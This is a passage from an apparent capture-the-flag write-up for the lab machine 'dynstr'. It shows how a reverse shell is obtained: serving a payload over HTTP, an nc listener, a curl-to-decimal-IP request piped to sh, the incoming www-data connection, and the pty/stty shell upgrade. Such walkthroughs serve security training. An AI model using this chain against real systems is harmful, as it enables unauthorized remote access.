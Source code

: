 We serve it on our machine with a python webserver on port 80 and set up a listener on the port specified in `index.html`.

```js
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations met we can now issue a curl request to our ip in decimal format to skip `.` and pipe the content over to sh. You can quickly convert your ip to decimal with the following one liner.

`ip-convert`
```js
$ python -c "print(sum([int(x) * 256 ** i for i, x in enumerate('10.10.14.14'.split('.')[::-1])]))"
168431118
```

Sending the request in burp we get a hit on our webserver and right afterwards a connection on our ncat listener.

[![reverse_shell](/img/dynstr/reverse_shell.png)](/img/dynstr/reverse_shell.png)

```js
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.160.254 - - [12/Jun/2021 23:18:52] "GET / HTTP/1.1" 200 -
```

We upgrade our shell as www-data, fix the terminal size and continue our way to root.

```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.160.254.
Ncat: Connection from 10.129.160.254:49140.
bash: cannot set terminal process group (795): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<nic$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dynstr:/var/www/html/nic$ export TERM=xterm
export TERM=xterm
www-data@dynstr:/var/www/html/nic$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@dynstr:/var/www/html/nic$ stty rows 55 cols 236
```
